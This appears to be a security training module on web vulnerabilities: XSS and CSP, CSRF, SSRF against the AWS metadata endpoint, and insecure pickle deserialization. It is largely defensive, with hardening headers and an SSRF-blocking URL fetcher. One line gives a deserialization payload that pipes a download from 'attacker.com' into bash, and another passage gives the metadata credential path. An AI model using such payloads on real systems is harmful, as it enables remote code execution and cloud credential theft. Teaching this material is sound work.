

# Web Application Vulnerabilities (XSS, CSRF, SSRF & Insecure Deserialization)

## 1. Overview & Purpose
Web applications expose complex attack surfaces across client-side DOM rendering, browser cross-origin boundaries, server-side data fetching, and object hydration.

This module details Cross-Site Scripting (Stored, Reflected, DOM-based XSS), Content Security Policy (CSP), Cross-Site Request Forgery (CSRF / SameSite Cookies), Server-Side Request Forgery (SSRF / Cloud Metadata Attacks), Insecure Deserialization (gadget chains), and Insecure Direct Object References (IDOR).

---

## 2. Prerequisites & Prerequisites Graph
- **Prerequisites**: `MOD-04.02.01` (Output Encoding) & `MOD-02.04.02` (HTTP Architecture).



---

## 3. Learning Objectives & Taxonomy Alignment
- **L1 Awareness**: Contrast Stored XSS, Reflected XSS, and DOM XSS.
- **L2 Understanding**: Explain SSRF cloud metadata endpoint exploitation (`169.254.169.254`), CSRF anti-forgery tokens, and Content Security Policy (CSP) directives.
- **L3 Practical**: Construct CSP headers, validate SSRF URL fetches against IP blacklists, and inspect CSRF SameSite cookie policies.
- **L4 Engineering**: Design zero-trust microservice HTTP fetch proxy architectures resilient to SSRF and XSS.

---

## 4. L1 — Awareness (Overview & Core Terminology)
**Cross-Site Scripting (XSS)** injects malicious JavaScript into client browser sessions. **CSRF** tricks an authenticated user's browser into submitting unauthorized HTTP requests. **SSRF** tricks a server into making unauthorized HTTP requests to internal networks or cloud metadata APIs.

---

## 5. L2 — Understanding (Core Theory & Mechanics)

```mermaid
graph TD
    subgraph Server-Side Request Forgery (SSRF) Cloud Metadata Exploit
        ATTACKER["Attacker Client"]
        WEB_SERVER["Vulnerable Web Server (Accepts PDF Generation URL)"]
        AWS_METADATA["AWS Metadata Endpoint (http://169.254.169.254/latest/meta-data/iam/security-credentials/)"]

        ATTACKER -->|1. Request PDF for URL: http://169.254.169.254/...| WEB_SERVER
        WEB_SERVER -->|2. Server fetches internal Cloud Metadata Endpoint| AWS_METADATA
        AWS_METADATA -->|3. Returns IAM Role Temp Credentials (SecretKey)| WEB_SERVER
        WEB_SERVER -->|4. Renders SecretKey in PDF returned to Attacker!| ATTACKER
    end
```

### Content Security Policy (CSP v3):
CSP restricts resources (JavaScript, CSS, Images, Frames) the browser is allowed to load. A strong CSP (`script-src 'nonce-rAnd0m'`) completely neutralizes XSS attacks by refusing to execute inline scripts lacking a valid cryptographic nonce matching the HTTP header.

### SSRF Cloud Metadata Vulnerability:
Cloud environments host internal metadata endpoints (`169.254.169.254`) that return temporary IAM credentials. If a web application fetches user-supplied URLs without restricting internal IP ranges (`169.254.169.254`, `10.0.0.0/8`, `127.0.0.1`), attackers can dump IAM keys and compromise the entire cloud infrastructure.

---

## 6. L3 — Practical (Commands & Configurations)

### Hardening HTTP Headers via Nginx Configuration:
```nginx
# Modern Security Headers Configuration
server {
    listen 443 ssl;
    server_name example.com;

    # Enforce strict Content Security Policy (CSP)
    add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'nonce-2726c7f6001a'; object-src 'none'; base-uri 'self';" always;

    # Prevent Clickjacking
    add_header X-Frame-Options "DENY" always;

    # Prevent MIME Sniffing
    add_header X-Content-Type-Options "nosniff" always;
}
```

### SSRF Safe URL Fetcher in Python:
```python
import socket
import urllib.parse
import ipaddress

ALLOWED_SCHEMES = {"http", "https"}

def safe_http_fetch(url: str):
    parsed = urllib.parse.urlparse(url)
    if parsed.scheme not in ALLOWED_SCHEMES:
        raise ValueError("Invalid URL scheme")

    # Resolve IP address and check for internal private ranges
    ip_str = socket.gethostbyname(parsed.hostname)
    ip = ipaddress.ip_address(ip_str)

    # Block Private, Loopback, Link-Local, and Cloud Metadata IPs
    if ip.is_private or ip.is_loopback or ip.is_link_local or str(ip) == "169.254.169.254":
        raise PermissionError(f"SSRF Attempt Blocked: Access to internal IP {ip} denied.")

    print(f"URL {url} resolved to safe external IP {ip}. Fetching payload...")
```

---

## 7. L4 — Engineering (Design Trade-offs & System Integration)
- **SameSite Cookies vs Anti-CSRF Tokens**: Setting `SameSite=Strict` or `SameSite=Lax` on session cookies stops cross-site GET/POST requests from attaching cookies by default, mitigating CSRF for modern browsers. However, API endpoints handling non-browser clients still require explicit Anti-CSRF Synchronizer Tokens in headers.

---

## 8. Internal Architecture & Data Structures
Insecure Deserialization Gadget Chain Mechanics (Java / Python `pickle`):
```text
Python pickle.loads(user_payload):
  Constructs __reduce__() object -> Executes os.system('curl attacker.com/shell | bash') upon unpickling.
```

---

## 9. Security Implications & Boundary Controls
- **Never Use `pickle.loads()` or `unserialize()` on Untrusted Input**: Deserialization algorithms instantiate raw objects and execute constructor/magic methods (`__reduce__`, `__wakeup__`), enabling instant Remote Code Execution (RCE).

---

## 10. Attack Vectors & Exploitation Primitives
1. **SSRF to AWS Cloud Metadata (IMDSv1)**: Fetching `http://169.254.169.254/latest/meta-data/` to compromise cloud IAM roles.
2. **Insecure Deserialization (Python `pickle`)**: Sending crafted pickle payloads executing arbitrary system commands.

---

## 11. Defense & Telemetry Verification
- Enforce **IMDSv2 (Session Token Required)** on AWS EC2 instances to block simple SSRF GET requests.
- Use **JSON / Protobuf** for serialization instead of `pickle` or Java native serialization.

---

## 12. Detection & Telemetry Verification

### AWS CloudTrail Audit for IMDSv1 Usage:
```json
{
  "eventName": "GetMetaData",
  "userAgent": "Mozilla/5.0 (VulnerableApp/1.0)",
  "requestParameters": { "httpTokens": "optional" } // Flag IMDSv1 usage!
}
```

---

## 13. Hands-On Lab Reference
- **Associated Lab**: `LAB-SEC007` (SSRF to Cloud Metadata Exploitation & IMDSv2 Hardening).

---

## 14. Related Projects & Applications
- **Associated Project**: `PRJ-SEC001` (Secure Healthcare Platform).

---

## 15. Troubleshooting & Diagnostics Matrix

| Symptom | Root Cause | Remediation / Diagnostic Command |
| :--- | :--- | :--- |
| Browser console logs `Refused to execute inline script because it violates CSP`. | Inline JavaScript block missing valid cryptographic `nonce`. | Inject dynamic `nonce` into script tag `<script nonce="...">`. |

---

## 16. Related Concepts & Cross-Domain Links
- `CON-SEC013`: Content Security Policy CSP (`DOM-04`)
- `CON-SEC014`: SSRF & AWS IMDSv2 (`DOM-04`)
- `CON-SEC015`: Insecure Deserialization (`DOM-04`)

---

## 17. Technical Interview Preparation (Q&A)
**Q: How does AWS IMDSv2 defend against Server-Side Request Forgery (SSRF) attacks targeting `169.254.169.254`?**  
*Answer*: AWS IMDSv1 allowed simple HTTP `GET` requests to retrieve IAM role credentials, making it easy to exploit via basic SSRF flaws. IMDSv2 mandates session-oriented authentication: the client must first issue an HTTP `PUT` request containing a custom header (`X-aws-ec2-metadata-token-ttl-seconds: 21600`) to request a Secret Token, and then supply that token in an `X-aws-ec2-metadata-token` header during subsequent `GET` requests. Because most SSRF vulnerabilities only permit simple `GET` requests without custom headers, IMDSv2 effectively blocks credential extraction.

---

## 18. Self-Assessment & Mastery Checklist
- [ ] Understand CSP directives and nonce generation.
- [ ] Able to write Python code validating URLs against private IP ranges.

---

## 19. References & Further Reading
- OWASP Top 10: *A10:2021-Server-Side Request Forgery (SSRF)*.
- AWS Documentation: *Instance Metadata Service Version 2 (IMDSv2)*.
- OWASP Cheat Sheet: *Cross-Site Scripting (XSS) Prevention Cheat Sheet*.
